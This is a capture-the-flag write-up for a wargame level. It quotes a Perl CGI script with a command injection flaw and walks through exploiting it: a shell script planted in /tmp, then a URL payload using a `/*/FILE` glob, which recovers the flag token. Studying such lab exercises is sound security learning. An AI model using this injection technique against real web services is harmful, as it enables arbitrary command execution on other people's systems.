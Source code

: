 ## Level12

We found a perl script:

```
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
```

Its a script runing on localhost on port 4646 that takes 2 args but we will focus on the first one because it got a potentiel of command injection in this line :

```@output = \`egrep "^$xx" /tmp/xd 2>&1\`;```


But first we need to deal with the 2 regex lines:

```
   $xx =~ tr/a-z/A-Z/;
   $xx =~ s/\s.*//;
```
  
 The first one change the alphabets to uppercase
 The second take string after the  last whitespace
 So we can't inject getflag directly we gonna put the command in a file
 So first we need to create a file in tmp we can call it FILE
 cat /tmp/FILE
 
 ```
    #!/bin/bash
    
    getflag > /tmp/token
  ```
 
 `chmod 777 /tmp/file` so another user can access it
 we still have one problem its that our output will become like this \`/TMP/FILE/\` and its not a valid path so we will change it to \`/*/FILE/\`
 we go to browser and go to:
 
 ```
 http://192.168.43.125:4646/?x="\`/*/FILE\`"
 ```
 
 comeback to terminal and cat /tmp/token :
 
 ```
 Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
 ```
 
